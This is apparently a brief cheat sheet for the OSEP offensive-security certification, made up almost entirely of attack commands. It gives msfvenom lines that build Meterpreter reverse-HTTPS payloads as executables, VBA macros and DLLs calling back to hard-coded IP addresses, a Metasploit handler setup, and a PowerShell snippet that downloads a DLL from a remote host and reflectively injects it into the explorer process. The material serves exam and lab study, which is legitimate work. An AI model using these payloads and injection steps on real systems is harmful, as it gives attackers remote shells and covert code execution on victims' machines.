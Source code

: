 # OSEP-Survival Joruney: Complete Guide

## Payload Generation

### Staged
```
#Staged
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.221 LPORT=443 -f exe -o ./msfstaged.exe

#NonStaged
sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.221 LPORT=443 -f exe -o ./msfnonstaged.exe

##VBA Staged
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication

##DLL Staged
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f dll -o /var/www/html/met.dll
```

### Non-staged
```
#exe
sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.221 LPORT=443 -f exe -o ./msfnonstaged.exe
```

## MSFConsole
```
sudo msfconsole -q
set payload windows/x64/meterpreter/reverse_https
set lhost 192.168.45.221
```

## DLL Injection

### Load On-Disk DLL into Memory
```
#Load DLL into bytes
$filePath = "C:\Path\To\YourFile.dll"
$bytes = Get-Content -Path $filePath -Encoding Byte -ReadCount 0
```

### Reflective DLL Injection
```
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.188/met.dll')
$procid = (Get-Process -Name explorer).Id
Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```